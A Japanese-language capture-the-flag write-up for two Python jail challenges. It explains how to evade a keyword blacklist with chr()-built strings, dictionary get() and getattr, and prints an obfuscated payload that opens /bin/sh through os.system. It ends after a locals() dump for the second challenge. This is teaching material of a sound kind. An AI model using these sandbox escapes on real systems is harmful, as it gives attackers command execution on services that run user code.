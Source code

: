 ```text
exec
hah almost forgot that one
for
@
dir
yah have fun
file
```

問題サーバーに接続すると次のような出力が得られる。

```txt
wow! there's a file called flag.txt right here!
>>>
```

`flag.txt`というファイルを開けばフラグが得られそうである。また、`>>> `に続く形でPythonコードを入力すると`exec()`か何かで実行してくれるらしい。

普通に`print(open("flag.txt").read())`してもブラックリストに引っかかって出力出来ない、というわけで別のところからこいつらを引っ張ってくる必要がある。

常套手段として`__builtins__`から引っ張ってくることが考えられる。ブラックリストに`locals()`は無いので`locals()["__builtins__"].<function>`で引っ張ってくる。

ところがブラックリストのせいで角括弧は使えないしそもそも`_`も`builtins`も使えない。加えて`.<function>`の部分に入れたい関数(`print, __import__`等)はだいたいブラックリストで阻まれる。

前者の解決としては辞書に対する`get()`メソッドを用いる。また、実行した時に文字列である`"__builtins__"`が構成されれば良いので`chr()`を使って生成する。

後者の解決としては`getattr()`を用いる。これの第二引数は文字列なので`chr()`を使う方法や、`"os"`を`"o"+"s"`や`"o""s"`のように分裂させて引数に指定することでブラックリストを回避出来る。

こうして最終的に出来上がったペイロードがこちら。

```python
getattr(getattr(locals().get(chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)),chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95))("o""s"),"sy""stem")("/bin/sh")
```

ある程度わかりやすい形にすると次のようになる。

```text
getattr(getattr(locals().get("__builtins__"),"__import__")("os"), "system")("/bin/sh")
```

## Writeup (genericpyjail2)

genericpyjailの続きで今度はブラックリストは与えられない代わりに`open`のような関数が使えない。`__builtins__`自体は生きているのでひとまず`getattr`を利用して`print(locals())`を実行してみると次のようになる。

```text
getattr(locals()["__builtins__"],"print")(locals())
now it's  getattr(locals()["__builtins__"],"print")(locals()) !
{'gone': ['open', 'file', 'execfile', 'compile', 'reload', '__import__', 'eval', 'input'], 'e': SyntaxError('invalid syntax', ('<string>', 1, 32, 'x=locals()["__builtins__"].print(3)\n')), '__builtins__': <module '__builtin__' (built-in)>, '__file__': 'jail2.py', '__package__': None, 'func': 'input', 'x': 'getattr(locals()["__builtins__"],"print")(locals())', '__name__': '__main__', '__doc__': None}
```
